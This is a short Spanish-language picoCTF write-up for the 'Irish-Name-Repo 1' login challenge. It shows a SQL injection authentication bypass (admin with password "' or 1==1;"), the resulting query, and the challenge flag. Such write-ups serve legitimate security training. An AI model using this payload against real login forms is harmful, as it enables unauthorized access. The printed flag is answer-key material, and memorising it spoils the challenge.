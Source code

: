 ##  Irish-Name-Repo 1

### Objetivos 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

### Pistas
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

### Solución 

- activamos el campo de debug desde las herramientas de desarrollador para ver las sentencias sql.

- hacemos una inyeccion SQL:
colocamos el username admin y en la contraseña ponemos una condición que siempre se cumpla, como 1=1 para iniciar sesion
``` bash

username: admin 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1==1;'

---

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```


```
### Notas adicionales:



### Referencias:
sql injection:  https://www.imperva.com/learn/application-security/sql-injection-sqli/#:~:text=SQL%20injection%2C%20also%20known%20as,not%20intended%20to%20be%20displayed.